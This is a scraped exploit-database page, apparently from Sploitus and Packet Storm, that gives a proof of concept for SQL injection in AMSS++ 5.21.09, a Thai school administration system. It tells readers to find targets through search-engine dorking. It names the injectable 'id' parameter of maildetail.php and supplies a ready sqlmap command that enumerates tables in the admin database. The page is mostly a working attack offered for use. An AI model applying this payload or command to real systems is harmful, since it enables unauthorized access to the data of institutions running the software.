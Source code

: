 ```yaml
---
title: AMSS++ 5.21.09 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173780&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-28
fetch_date: 2025-10-04T11:51:47.439657
---
```


# AMSS++ 5.21.09 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for AMSS++ 5.21.09 SQL Injection

2023-07-27 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173780
====================================================================================================================================
| # Title : AMSS++ V5.21.09 JT SQL injection Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 115.0.2(64-bit) |
| # Vendor : http://amssplus.ubn4.go.th/amssplus_download/amssplus_full_update_5_21.rar |
====================================================================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine.

[+] use payload : /modules/mail/main/maildetail.php?id=174 <===== inject here

D:\sqlmap>sqlmap.py -u https://127.0.0.1/amss.ictkan2com/modules/mail/main/maildetail.php?id=174 --risk=3 --level=5 --random-agent --user-agent -v3 --batch --threads=10 --tables -D admin_amss

Greetings to :=================================================================
jericho * Larry W. Cashdollar * shadow_00715 * LiquidWorm * Hussin-X * D4NB4R |
===============================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)